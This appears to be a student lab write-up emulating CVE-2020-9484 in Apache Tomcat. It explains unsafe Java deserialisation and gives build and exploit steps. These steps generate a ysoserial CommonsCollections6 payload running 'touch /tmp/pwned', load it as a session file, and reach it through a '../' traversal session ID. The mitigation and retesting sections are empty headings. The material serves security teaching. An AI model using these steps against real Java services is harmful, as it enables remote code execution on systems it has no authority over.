

# Java Deserealisation

## Vulnerability Explanation: Underlying Security Theory, Relevant Weaknesses and Classification

This laboratory example emulates CVE-2020-9484, in which Apache Tomcat’s PersistentManager deserialises session files through an unfiltered ObjectInputStream \parencite{NIST2026CVE9484}. Native deserialisation rebuilds an arbitrary object graph, invoking callbacks such as readObject before validation \parencite{Oracle2018SerialGuide}. An attacker chains gadget classes already on the classpath, here Apache Commons Collections, into a sink such as Runtime.exec(), gaining remote code execution without any malicious class of their own. The flaw maps to CWE-502 (Deserialization of Untrusted Data) and OWASP A08:2025 – Software and Data Integrity Failures \parencite{CWE502, OWASP2021A08}. NVD assigns a CVSS 3.1 base score of 7.0, its Local vector and High complexity reflecting preconditions absent from a network-reachable sink \parencite{NIST2026CVE9484}.

## Demonstration of Exploitability

The minimal sink is a single unfiltered readObject() on a session file (Listing~X). Exploitation needs no flaw in the application’s own classes. Using ysoserial, an attacker serialises a CommonsCollections6 gadget chain that embeds an operating-system command, here touch /tmp/pwned, and writes the result as a .session file; in the lab this is placed directly, while in CVE-2020-9484 a ../ session identifier redirected the store to an uploaded file. When the application reloads that session, readObject() rebuilds the object graph and the chain executes during reconstruction, before any value is returned (Figure~X). The dropped /tmp/pwned file confirms arbitrary execution. Because the command runs with the JVM’s privileges, impact is complete: confidentiality, integrity and availability are all lost. The application never references Commons Collections; its presence on the classpath suffices.



## Identifying the Vulnerability Using Techniques and Tools

## How to Mitigate the Vulnerability

## Retesting For Resilience

---

# Supplementary Information

## Prerequisites

- JDK 8 or 11 strongly recommended. The `CommonsCollections6` chain
  fires most reliably on these. It can work on newer JDKs but needs extra
  `--add-opens` flags, and is less predictable.
- Maven 3.8+
- Internet access on first build (to fetch `commons-collections:3.1` and ysoserial)
- A disposable Linux VM/container (used 24.4.04)

---

## Build

```bash
mvn clean package
# produces target/deser-lab.jar  (commons-collections bundled inside)
```

---

## Normal Use (Verifying Funcitonality)

```bash
java -jar target/deser-lab.jar save            # writes sessions/node01.session
java -jar target/deser-lab.jar load node01     # loads it back
# [app] loaded object: Session{id=node01, user=alice, role=USER}
```

This proves the store works for legitimate objects. The exploit below reuses the
exact same `load` path.

---

## Exploiting the Application

### Setting up the Ubuntu VM

```bash
sudo apt update && sudo apt upgrade -y
sudo apt install -y openjdk-11-jdk maven git unzip
```

### Pinning toolchain to JDK 11

```bash
echo 'export JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64' >> ~/.bashrc
echo 'export PATH=$JAVA_HOME/bin:$PATH' >> ~/.bashrc
source ~/.bashrc
```

### Verifying Java Versions

```bash
java -version      # openjdk 11...
javac -version     # javac 11...   
mvn -version       # Java version: 11...
```

### Running the Exploit

This assumes that both ysoserial and the lab sit in the Documents directory.

```bash
LAB=~/Documents/"2 Unsafe Java Deserialisation or Software Integrity"
YSO=/home/testmachine/Documents/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar

cd "$LAB"
mkdir -p sessions
java -jar "$YSO" CommonsCollections6 "touch /tmp/pwned" > "$LAB/sessions/evil.session"

ls -l sessions/evil.session     

# Running the attack

  cd "$LAB"
  rm -f /tmp/pwned
  java -jar target/deser-lab.jar load evil
  ls -l /tmp/pwned        # file present → RCE confirmed
```

From the application perspective, a session is being loaded. Before any application logic is applied, the command is run during `readObject()` by the gadget chain.

### The Path Traversal Precondition

CVE- didn't use an overt identifier `evil.session`. Instead, the threat actor used the session ID to traverse target systems, such as `../../../../tmp/evil`. This was dependent on the attacker knowing the relative path of the application, can be mimicked by doing the following:

```bash
cp sessions/evil.session /tmp/evil.session
java -jar target/deser-lab.jar load "../../../../tmp/evil"
```
